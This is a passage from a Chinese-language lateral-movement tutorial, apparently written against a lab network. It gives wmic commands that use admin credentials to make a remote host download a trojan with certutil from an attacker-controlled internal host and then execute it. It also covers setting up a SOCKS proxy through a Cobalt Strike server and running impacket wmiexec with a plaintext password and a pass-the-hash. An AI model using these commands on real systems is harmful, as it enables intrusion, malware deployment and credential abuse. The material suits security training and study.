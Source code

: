 ![image-20230628203445226](https://s2.loli.net/2023/06/30/zbXwFPErUsRdK96.png)

#### 文件上传目标主机

这里非常抱歉，我使用域内账户来执行发现权限不够，所以这里我切换了一下权限，看来还是需要使用到system的权限。下面的这个密码也是我后期重新获取的。

```
wmic /node:192.168.20.30 /user:administrator /password:admin@123 process call create "cmd.exe /c certutil -urlcache -split -f http://192.168.20.20/3333.exe c:/3333.exe"
```

![image-20230628205957524](https://s2.loli.net/2023/06/30/KcwrBAbm17jV4p3.png)

#### 执行木马

到这里我们就可以执行文件了，这里也上线了，不过要注意这个是反向木马，如果是正向的是一样的操作。

```
wmic /node:192.168.20.30 /user:administrator /password:admin@123 process call create "c:/3333.exe"
```

![image-20230628210634213](https://s2.loli.net/2023/06/30/mNSwHVOtdLDe13v.png)

## wmiexec-impacket套件操作演示

这里我们前期的受控主机上线就不演示了，直接演示横向移动吧，这里需要使用到套件，这里我们使用py版本，exe文件太大了，而且存在被杀的风险，同时为了，保证安全，我们不将文件上传，直接开启socks代理，本地运行。

[impacket](https://github.com/fortra/impacket)

### 设置socks代理

这里使用工具进行设置socks代理，应该不用说了吧，之前写文章都很详细，后续将一些不必要的内容，或者很简单内容都去除，直接上效果，或者一些必要的操作。

#### 设置代理服务器

注意这里的代理要设置你的CS服务器的代理，至于端口怎么获取，自己想！

![image-20230629093251535](https://s2.loli.net/2023/06/30/91SXsA7JGfYQP38.png)

#### 设置代理规则

这里我们设置由于访问192.168.20.\*才使用这个代理。

![image-20230629093344849](https://s2.loli.net/2023/06/30/ycS2ZJgWpFEDMuw.png)

#### 代理测试

这里需要注意哦，使用python的时候，这个套件是需要下载模块的，这边已经提前下载了。

可以看到这里我们也是成功获取到信息，证明能够正常连接。

```
python wmiexec.py ./administrator:admin@123@192.168.20.30 "whoami"
python wmiexec.py -hashes :579da618cfbfa85247acf1f800a280a4 ./administrator@192.168.20.30 "whoami"
```
